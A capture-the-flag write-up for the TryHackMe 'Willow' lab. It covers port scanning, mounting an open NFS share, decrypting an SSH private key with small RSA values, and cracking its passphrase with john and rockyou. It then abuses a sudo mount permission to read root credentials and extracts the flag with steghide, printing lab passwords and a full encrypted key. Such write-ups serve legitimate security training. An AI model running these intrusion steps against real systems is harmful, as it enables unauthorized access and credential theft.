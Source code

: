 # 31 - Willow (RSA calculator for SSH key)

Room Link --> [https://tryhackme.com/room/willow](https://tryhackme.com/room/willow)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -p- -T5 -sV -vv 10.10.243.176

# outputs
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
```
{% endcode %}

Opening the Webpage and we find a HEX encoded text, using cyberchef to decode it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
[..redacted..]
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

#### rpcbind enum \[111]

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap --script rpc-grind,rpcinfo 10.10.243.176 -p111

| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37980/udp6  mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      53265/tcp6  mountd
|   100005  1,2,3      58183/tcp   mountd
|   100021  1,3,4      44424/udp6  nlockmgr
|   100021  1,3,4      45652/udp   nlockmgr
|   100021  1,3,4      45701/tcp6  nlockmgr
|   100021  1,3,4      50990/tcp   nlockmgr
|   100024  1          49744/udp6  status
|   100024  1          52105/tcp   status
|   100024  1          55785/udp   status
|   100024  1          58486/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
{% endcode %}

#### NFS enum \[2049]

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ showmount -e 10.10.243.176      
Export list for 10.10.243.176:
/var/failsafe *

```
{% endcode %}

Mounting the NFS share.

{% code overflow="wrap" lineNumbers="true" %}
```bash
mount -t nfs 10.10.243.176:/var/failsafe /mnt/thm -o nolock

┌──(root㉿dking)-[/home/dking/Downloads]
└─# cd /mnt/thm && ls -al 
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root    4096 Oct 17 13:12 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

┌──(root㉿dking)-[/mnt/thm]
└─# cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)

# Looks like a clue.
```
{% endcode %}

Back to the Webserver :(

The hint said we should visit this blog --> [https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/)

At the bottom of the blog there was some code that seemed to make sense:

<figure><img src="https://miro.medium.com/v2/resize:fit:362/1*_aB1ouQQGvfU3QwUtw4QJQ.png" alt="" height="45" width="526"><figcaption></figcaption></figure>

This seemed to tie in perfectly with the information found in the NFS file:

`Public Key (e=23, n=37625)`&#x20;

`Private Key (d=61527, n=37627)`&#x20;

We use this **RSA Calculator** to decrypt the HEX values --> [https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------](https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------)

Just substitute the values in the appropiate box.

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the key.

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

The hash is encrypted, we use `ssh2john` to crack the password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# output
wildflower       (id_rsa) 
```
{% endcode %}

We login via ssh.

`ssh -i id_rsa willow@10.10.243.176` -  and we are logged in.

`sudo -l` - and we can execute `/bin/mount /dev/*` with privileges.

Lets first see what is in /dev/:

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-5TMxRo9Fu-0brBgRygGTA.png" alt="" height="219" width="700"><figcaption></figcaption></figure>

There is an interesting directory /hidden\_backup. Let’s mount this, but first I will create a /dev/hidden\_backup directory in Willows /Home directory/ and then mount the /dev/hidden\_backup

_**`sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/`**_

We can now navigate to the /dev/hidden\_backup in our /home directory.

{% code overflow="wrap" %}
```bash
willow@willow-tree:~$ mkdir  dev
willow@willow-tree:~$ cd dev/
willow@willow-tree:~/dev$ mkdir hidden_backup
willow@willow-tree:~/dev$ cd ..
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/
willow@willow-tree:~$ ls /home/willow/dev/hidden_backup/
creds.txt
willow@willow-tree:~$ cat /home/willow/dev/hidden_backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```
{% endcode %}

And we got creds for root.

The user flag is in the "user.jpg" file.

Turns out the root flag was hidden inside the user.jpg file also, so we use the root password and steghide tool to get the root.txt.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ steghide extract -sf user.jpg   
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                 
┌──(dking㉿dking)-[~/Downloads]
└─$ cat root.txt   
THM{find_a_red_rose_on_the_grave}
```
{% endcode %}

Done !
